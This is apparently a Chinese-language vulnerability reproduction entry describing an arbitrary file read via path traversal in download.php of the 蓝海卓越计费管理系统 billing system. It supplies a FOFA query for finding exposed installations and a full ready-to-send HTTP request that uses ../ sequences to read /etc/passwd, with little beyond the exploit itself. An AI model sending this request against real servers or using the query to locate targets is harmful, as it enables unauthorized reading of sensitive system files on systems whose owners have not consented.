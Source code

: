 # 蓝海卓越计费管理系统 download.php 任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

```
蓝海卓越计费管理系统
```

## FOFA

```
title=="蓝海卓越计费管理系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101852354.png)



出现漏洞的文件为 download.php ，其中 file参数 存在用户可控



发送如下请求包



```plain
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```



![](./images/202202101852942.png)

## 